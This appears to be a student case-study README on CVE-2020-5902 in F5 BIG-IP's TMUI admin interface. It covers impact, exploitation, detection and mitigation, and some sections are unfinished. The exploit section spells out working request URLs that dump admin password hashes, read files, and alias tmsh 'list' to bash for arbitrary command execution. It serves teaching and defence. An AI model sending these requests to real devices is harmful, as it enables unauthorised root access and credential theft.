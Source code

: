 # CVE 2020-5902

![alt text](https://www.zdnet.com/a/hub/i/2020/07/03/b6c96e0e-7da9-461a-adff-d6009723189a/f5-networks.jpg "F5 Networks Logo")

_Presented by: Tharmiga Loganathan, Manavjot Singh, Mili Choksi_

**Vulnerability Highlights:**

CVSS 3.x: 9.8 (Critical)

CVSS 2.0: 10.0 (High)

_The CVE 2020-5902 vulnerability impacted F5 Network's suite of load-balancing software products called BIG-IP last July. It is a code injection attack that can give hackers root level privileges to vulnerable systems! According to Shodan, there were 8,000 exposed devices at one point with an estimated 2,000 of those devices actually vulnerable to this exploit._

> **What is Shodan?**
> At first look, Shodan can be used to search devices connected to the Internet according to different filters. However, in more negative use-cases, it can be used streamline the process of searching for vulnerable devices.

**Outline:**

* Intro, scale
* What is BIGIP - load balancer
* The exploit
* Create alias explanation
* How to check if you are vulnerable
* Mitigation
* Could still be impacted, use resource integrity!... explain
* So this is a story on why it's important to secure your permissions, and stay up to date on big vulnerabilities that come out!
  

## What is BIG-IP? + Why Should I Care?

BIG-IP is a family of software and hardware solutions from F5 Networks. While it originally started out as a load balancer, it has now expanded to offer complimentary services such as traffic management, access control, security and optimization. Load balancers work by providing a virtual IP on behalf of numerous other devices. This is a service that allows large scale applications to seamlessly serve its customers without a bottleneck. 

This exploit is particularly impactful because it can not only impact the load balancing server itself but also any device that is behind the load balancer. 
  
Moreover, even if you aren't running an F5 BIG-IP device, but have some external link to a javascript library included in your application, your application may also be exposed! If the resource happens to be behind a BIG-IP load balancer that is vulnerable, your application can also be exploited. Using subresource integrity can help make you immune to this sort of vulnerability and it is also best practice when it comes to including external libraries in your application, more on this will be discussed later in the reprot. This highlights the importance of staying on top of cybersecurity news and taking all precautions posisble when building your application!

## CVE Timeline

There has been a rise in the number of vulnerabilities among similar software products around the time this vulnerability came out. The very day the exploit got out, F5 Networks has created many articles, videos, and Q&A sessions designed to help its customers keep their systems safe. But it didn't take long for **many** proof of concept code snippets to pop up on GitHub.

![alt text](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/PoC%20scripts%20published%20to%20GitHub.png "GitHub Exploit Code")

Let's dive right into the exploit now!

## The Exploit

This code injection vulnerability impacts the TMUI (configuration utility for the BIG-IP) and can allow unauthenicated users to execute system commands, create or delete files, disable services or execute Java code. The TMUI is a web application that is installed within the device that provides an admin interface. The following is the vulnerable URL:
```
https://[hostname]/tmui/login.jsp
```
The exploit is a "..;" following the above URL. The URL below is an example of an exploitable URL that will return a list of all of the admin users along with their password hashes:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

> **The Three Most Common Exploits**
> 
> Execute Command (only allows for tmsh commands):
> ```
> /tmui/locallb/workspace/tmshCmd.jsp
> ```
> 
> Read Files:
> ```
> /tmui/locallb/workspace/fileRead.jsp
> ```
> 
> Write Files:
> ```
> /tmui/locallb/workspace/fileSave.jsp
> ```

While the above execute command can only access tmsh commands, you can use "create alias" to allow execution of any bash command! "Create alias" can be used to link the tmsh "list" command to the "bash" command. The following is what the command will look like:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

Once the alias is created, more requests can be sent in the same manner in subsequent requests containing any bash commands the user would like to execute, the word "bash" in the command must simply be replaced with "list". 

Alternatively, instead of continually executing one line bash commands, you may want to have a whole script execute. You can save and execute a bash script on the server. First, you can save the script like so:

```
fileSave.jsp?fileName=/tmp/cmd&content=id
```

Second, execute the script like so (remember "list" actually means "bash":

```
tmshCmd.jsp?command=list+/tmp/cmd
```

Finally, in order to delete the alias and clean up:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list
```

## Detecting Exploits 

The following command can be used as a test to see if you are vulnerable. If the exploit works, it means you are vulnerable and it will simply return the version of BIG-IP you are currently running:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```
If you find that you are vulnerable, you may want to also check to check your logs to see if you have been exploited. You may see signs of an exploit by reviewing your logs at `/var/log/audit`. More specifically, based on what we've learned, you may notice a `cmd_data=delete cli alias private list` if a hacker has tried to delete the alias they have created.


## Mitigation

Never expose admin interface to the public
  F5 has said multiple times not to do this
  But if you did anyway, you are vulnerable

• update software
• ensure mgmt port is not publically accessible
• lock down self ip ports "allow none"
• var/log to see if it has been breached

## What now?

This case study highlights the importance of 

## Resources

https://www.tenable.com/blog/cve-2020-5902-critical-vulnerability-in-f5-big-ip-traffic-management-user-interface-tmui
BIG IP
https://www.youtube.com/watch?v=D6J_j7HdkV8&ab_channel=F5DevCentral 
Self IP
https://www.youtube.com/watch?v=ZeDP6D7fEwM&ab_channel=SteveLyons
The basics of the exploit
https://www.youtube.com/watch?v=hS8ptpsmgJE&ab_channel=F5DevCentral
the exploit - SANS
https://www.youtube.com/watch?v=NmZFwE537Zg&ab_channel=SANSInstitute

